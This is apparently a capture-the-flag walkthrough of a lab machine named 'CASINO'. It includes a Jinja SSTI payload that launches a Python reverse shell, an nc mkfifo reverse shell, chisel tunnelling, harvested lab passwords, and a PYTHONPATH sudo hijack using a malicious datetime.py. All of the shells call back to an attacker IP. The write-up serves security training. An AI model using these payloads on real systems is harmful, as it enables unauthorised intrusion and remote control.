# CASINO



## NMAP SCAN

```text
PORT     STATE    SERVICE    REASON         VERSION
22/tcp   open     ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http       syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener no-response
```

## PORT 80 ENUMERATION

### GOBUSTER

```text
/search               (Status: 302) [Size: 209] [--> http://172.31.3.7/]
/login                (Status: 200) [Size: 3316]                        
/static               (Status: 301) [Size: 309] [--> http://172.31.3.7/static/]
/portal               (Status: 200) [Size: 4266]                               
/team                 (Status: 200) [Size: 3612]                               
/tos                  (Status: 200) [Size: 2892]                               
/play                 (Status: 302) [Size: 219] [--> http://172.31.3.7/login]  
/server-status        (Status: 403) [Size: 275]
```

### /LOGIN



### USERS \( ATTENTION TO "FLASK"\)

```text
Erlich Bachman
grey   (Newbie Flask Web Dev)
Carla
Dinesh
Gilfoyle
```

```text
Phil
Alan - How did you get banned from an arcade???
Stu
Mr. Chow
Doug
```

### /PORTAL



## SERVER SIDE TEMPLATE INJECTION

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server Side Template Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)





### EXPLOIT

* USE THIS COMMAND

```text
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.0.63\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}
```





## MACHINE ENUMERATION

### USERS WITH CONSOLE

```text
root:x:0:0:root:/root:/bin/bash
erlich:x:1000:1000:erlich:/home/erlich:/bin/bash
grey:x:1001:1001:,,,:/home/grey:/bin/bash
carla:x:1002:1002:,,,:/home/carla:/bin/bash
```

### WEBAPP DIRECTORY



```text
i_L0v3$$$
```

* DOWNLOAD ZIP FILE





* APP.PY



```text
grey:>F73SzS36>V$tJmc
```



```text
erlich:i_L0v3$$$
```

## LOGIN USING ERLICH CREDS


### BTC

MAYBE SOME FORM OF EXPLOIT IN THE PARAMETER \(IF NEED IT WE CAME BACK\)






## ENUMERATE & EXPLOIT PORT 9000

## UPLOAD CHISEL

* IN OUR ATTACKER MACHINE

```text
chisel server -p 8888 --reverse
```



* IN VICTIM

```text
./chisel client 10.10.0.63:8888 R:9000:127.0.0.1:9000
```



## DEVELOPER PLATFORM



### GET A SHELL

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.63 9999 >/tmp/f
```





## GREY HOME FOLDER

### .GIT

* GIT SHOW



```text
carla:>F73SzS36>V$tJmc
```

## PRIVESC



* WE CAN SET THE ENVIRONMENT IN SUDO MODE \(IN THIS CASE THE PYTHONPATH\)
* FILE "updateBTCPrice.py -rwxr-xr-x root\(WE CAN'T EDIT\)"

```python
#!/usr/bin/python3

from datetime import datetime
import requests

print(datetime.now())

try:
    price = requests.get("https://www.coinbase.com/price/bitcoin").text
    btcPrice = open('/var/www/webApp/webApp/templates/btc.price', 'w')
    btcPrice.write(price)
    btcPrice.close()
    import os
    os.system("service apache2 restart")
except:
    print("ERROR: Could not connect to coinbase!")
```

### MAKE OR UPLOAD A DATETIME.PY IN TMP OR DEV/SHM

REVERSE SHELL IN PYTHON

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.63",6325));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```



RUN SUDO COMMAND

```bash
sudo PYTHONPATH=/tmp /opt/updateBTCPrice.py
```



## FLAGS

### USER

```text
69ee5d271b39d6aa19849dd8cbf516f3
```

### ROOT

```text
eea92150cdc75ba784e8d368b0ba36e0
```

